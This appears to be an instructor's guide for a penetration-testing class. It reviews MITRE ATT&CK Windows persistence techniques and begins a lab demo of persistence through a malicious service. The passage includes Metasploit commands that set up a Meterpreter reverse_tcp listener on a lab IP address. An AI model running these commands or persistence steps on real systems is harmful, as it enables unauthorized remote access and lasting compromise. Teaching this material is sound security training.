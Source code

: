 There are also MITRE techniques for persistence. Show students the MITRE page on [persistence](https://attack.mitre.org/tactics/TA0003/).

- **MITRE technique: [Boot or Logon Initialization Scripts: Logon Script (Windows)](https://attack.mitre.org/techniques/T1037/001/)**
  - In this technique, a pen tester can register a script as a registry key that will execute on startup or login. 

- **MITRE technique: [Create or Modify System Process: Windows Service](https://attack.mitre.org/techniques/T1543/003/)**
  - In this technique, a pen tester can modify a service to run an executable on startup. 
    - Remind students that services are run as SYSTEM by default. 
    - Even though services can be abused for privilege escalation, they can also be used for persistence.

- **MITRE technique: [Event Triggered Execution: Windows Management Instrumentation Event Subscription](https://attack.mitre.org/techniques/T1546/003/)**
  - This technique leverages Windows Management Instrumentation (WMI), a way of managing Windows machines, to perform an action once a specific event in Windows is triggered. 
  - For example, whenever a logon event is created in Windows (which occurs when a user logs in), use WMI to start a new process (which could be a payload). 

- **MITRE technique: [Event Triggered Execution: Screensaver](https://attack.mitre.org/techniques/T1546/002/)**
  - This technique allows the pen tester to replace the executable that is used to display the screensaver with a malicious executable or payload. 

Point out that these are just some examples of persistence techniques in Windows, and this isn't a comprehensive list.
- Inform students that you will now demonstrate the persistence technique of creating a malicious service.
	
	
#### Windows Persistence Demo

To demonstrate persistence using malicious services, you will use `msfvenom` to generate a Meterpreter payload, transport it to the Windows machine, and register a service using it. 

- This requires an active shell as SYSTEM on the Windows 10 machine. Note: The first six steps listed detail how to open a Meterpreter shell on the Windows 10 machine if you do not have an active session already.

1. Log in to Ubuntu and open a terminal. Start Metasploit with the following command:

     - `msfconsole`
	 
**Note:** If you already have Metasploit open and running, kill any jobs that may be running in the background with `jobs -K`.

2. Load the `multi/handler` module with the following command:

	 - `use exploit/multi/handler`
	
3. Set the parameters to listen for the payload with the following commands:

	 - `set LHOST 172.22.117.100`
	 - `set LPORT 4444`
	 - `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
	 - `run -j`
